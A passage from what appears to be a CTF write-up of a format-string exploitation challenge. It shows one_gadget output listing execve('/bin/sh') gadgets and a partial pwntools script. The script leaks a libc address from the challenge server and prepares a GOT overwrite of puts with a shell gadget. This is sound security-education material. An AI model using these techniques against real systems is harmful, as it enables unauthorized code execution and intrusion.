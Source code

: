 ```
root@b1a0c5b0df97 /pwn# one_gadget libc.so.6 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Whenever I was writing this script during the CTF I got stuck for a long time trying to write the address of libc system into the puts pointer. This would be a fine idea, but system expects a command string to be pushed onto the stack before execution (preferably "/bin/sh"). With the payload below, I could not figure out how to make this happen, until I tried the [one gadget](https://github.com/david942j/one_gadget) gem which helps to find one gadget RCE. Running the gem on the libc.so.6 file gives the output seen above, and the second gadget is found to work in this case (through some trial and error). The [objdump](https://linux.die.net/man/1/objdump) tool would have also worked for this, but one_gadget makes the job much easier.

{% highlight python %}
from pwn import *

r = remote('shell.actf.co', 20201)

# format string to leak <__libc_start_main+240>
r.sendline(';%27$p;')

# __libc_start_main address
libc_start_main = int(r.recvuntil('check out?').split(';')[1], 16) - 240

# libc base address
libc_base = libc_start_main - 132928

# location of pointer to <puts@plt>
puts = 0x601018

# execve("/bin/sh") gadget location
system = libc_base + 0x4526a

# split into three halfword sections of system gadget address
# only three necessary because address usually starts with 0x0000...
p1 = (system & 0xffff)
p2 = (system & 0xffff0000) >> 16
p3 = (system & 0xffff00000000) >> 32

ps = {p1: '21', p2: '22', p3: '23'}

